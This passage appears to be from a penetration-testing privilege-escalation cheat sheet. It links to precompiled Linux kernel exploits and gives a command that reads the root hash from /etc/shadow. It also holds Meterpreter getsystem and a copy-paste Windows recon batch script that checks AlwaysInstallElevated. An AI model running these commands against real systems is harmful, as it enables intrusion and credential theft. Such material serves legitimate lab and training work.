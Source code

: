 -   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password

    `cat /etc/shadow |grep root`
    
-   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:  
    
    `whoami` 
    
    `net user "%username%"`

-   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

-   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).
     
     Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1
         arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt	
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt
         timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt